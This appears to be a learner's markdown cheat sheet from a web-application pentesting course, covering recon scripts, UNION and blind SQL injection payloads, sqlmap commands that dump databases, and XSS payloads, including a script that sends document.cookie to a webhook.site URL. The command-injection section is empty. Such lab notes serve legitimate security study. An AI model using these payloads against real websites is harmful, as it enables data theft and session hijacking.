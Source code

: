- Recon scripts
	- sumrecon: [https://github.com/thatonetester/sumrecon](https://github.com/thatonetester/sumrecon)
	- TCM's modified script - [https://pastebin.com/MhE6zXVt](https://pastebin.com/MhE6zXVt)

##  SQL Injection
###### SQL Injection - UNION
- `jeremy' or 1=1-- -` or `jeremy' or 1=1#`
- `jeremy' union select null,null,null#` -- to output number of columns
- `jeremy' union select null,null,version()#` -- to output version
- `jeremy' union select null,null,table_name from information_schema.tables#` -- to output all of the tables that exists in database
- `jeremy' union select null,null,column_name from information_schema.columns#`-- to output all of the columns that exists in database
- [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
###### SQL Injection - Blind 
- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response.
- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. [refer](https://portswigger.net/web-security/sql-injection/blind)
- Open burp -> send the POST request to repeater 
- Copy the whole request and paste it in req.txt
- `sqlmap -r req.txt`
- If we can change the session cookie and response doesn't change that means we have SQL Injection 
	- In our lab `Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#`
- Now we will be using substring (SUBSTRING(_string_, _start_, _length_))
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex',1,3) ='ale'#` -- to check for password match 
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,1) ='8'#`  or  `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,5) ='8.0.3'#` -- to check the version of database
- Copy the whole GET request and paste it in req2.txt
- `sqlmap -r req2.txt --level=2` -- this will check for cookie
- `sqlmap -r req2.txt --level=2 --dump` -- this will dump all tables from every databases
- `sqlmap -r req2.txt --level=2 --dump -T injection0x02` -- if you know the table

## XSS
- avoid using `alert(1)` try `print()` or `prompt("Hello")`
- `<img src=x onerror="prompt(1)">`
- `<img src=x onerror="window.location.href='https://google.com'">`
- Always test for HTL injection first
- To steal the cookie
	- visit `webhook.site` and click on Unique URL
	- `<script>var i=new Image;i.src="https://webhook.site/112d88a1-28ab-42b9-9864-a6b2ae8750e0/?"+document.cookie;</script>`

##   Command Injection
- 